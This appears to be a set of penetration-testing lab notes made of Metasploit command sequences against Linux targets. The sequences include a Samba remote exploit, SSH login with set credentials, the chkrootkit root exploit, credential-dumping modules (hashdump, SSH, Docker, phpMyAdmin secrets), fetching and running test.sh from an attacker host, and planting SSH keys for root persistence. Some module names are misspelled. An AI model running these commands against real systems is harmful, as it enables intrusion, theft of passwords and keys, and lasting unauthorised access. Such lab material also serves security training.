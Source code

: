 ## Post Exploitation Lab I
	- post/linux/gather/enum_configs
	- post/multi/gather/env
	- post/linux/gather/enum_network
	- post/linux/gather/enum_protections
	- post/linux/gather/enum_system
	- post/linux/gather/checkcontainer
	- post/linux/gather/checkvm
	- post/linux/gather/enum_users_history
	- post/multi/manage/system_session
	- post/linux/manage/download_exec
	nmap -sS -sV -p- ip
	msfconsole
	use exploit/linux/samba/is_known_pipename
	set RHOSTS ip
	check
	exploit -z
	use post/linux/gather/enum_configs
	set SESSION 1
	exploit
	use post/multi/gather/env
	set SESSION 1
	exploit
	use post/linux/gather/enum_network
	set SESSION 1
	exploit
	use post/linux/gather/enum_protections
	set SESSION 1
	exploit
	use post/linux/gather/enum_system
	set SESSION 1
	exploit
	use post/linux/gather/checkcontainer
	set SESSION 1
	exploit
	use post/linux/gather/checkvm
	set SESSION 1
	exploit
	use post/linux/enum_users_history
	set SESSION 1
	exploit
	use post/multi/manage/system_session\
	set SESSION 1
	set TYPE python 
	set HANDLER true
	set LHOST ip
	exploit
	use post/linux/manage/download_exec
	set URL http://ip/test.sh
	set SESSION 1
	exploit



#### Privilege Escalation - Rootkit Scanner
	nmap -sS -sV ip
	msfconsole
	use auxiliary/scanner/ssh/ssh_login
	set RHOSTS ip
	set USERNAME jackie
	set PASSWORD password
	exploit
	sessions -i 1
	ps aux
	cat /bin/check-down
	command -v chkrootkit
	searchsploit chkrootkit 0.49
	use exploit/unix/local/chkrootkit
	set CHKROOTKIT /bin/chkrootkit
	set session 1
	set LHOST ip
	exploit
	cat /root/flag



#### Post Exploitation Lab II
	- post/multi/gather/ssh_creds
	- post/multi/gather/docker_creds
	- post/linux/gather/hashdump
	- post/linux/gather/ecryptfs_creds
	- post/linux/gather/enum_psk
	- post/linux/gather/enum_xchat
	- post/linux/gather/phpmyadmin_credsteal
	- post/linux/gather/pptpd_chap_secrets
	- post/linux/manage/sshkey_persistence
	- msfconsole
	- setg RHOSTS
	use exploit/linux/samba/is_knwon_pipename
	check
	exploit
	back
	use post/multi/gather/ssh_creds
	set SESSION 1
	exploit
	use post/multi/gather/docker_creds
	set SESSION 1
	exploit
	use post/linux/gather/hashdump
	set SESSION 1
	set VERBOSE true
	exploit
	use post/linux/gather/encryptfs_creds
	set SESSION 1
	exploit
	use post/linux/gather/enum_psk
	set SESSION 1
	exploit
	use post/linux/gather/enum_xchat
	set SESSION 1
	exploit
	use post/linux/gather/phpmyadmin_credsteal
	set SESSION 1
	exploit
	use post/linux/gather/pptd_chap_secrets
	set SESSION 1
	exploit
	use post/linux/manage/sshkey_persistence
	set SESSION 1
	exploit



#### Establishing Persistence On Linux
	ifconfig
	use auxiliary/scanner/ssh/ssh_login
	set RHOSTS ip
	set USERNAME jackie
	set PASSWORD password
	exploit
	sessions -u i
	use exploit/unix/local/chkrootkit
	set SESSION 2
	set CHKROOTKIT /bin/chkrootkit
	exploit
	sessions -u 3
	use post/linux/manage/sshkey_persistence
	set SESSION 4
	set CREATESSHFOLDER true
	exploit
	loot
	chmod 0400 ssh_key
	ssh -i ssh_key root@ip
	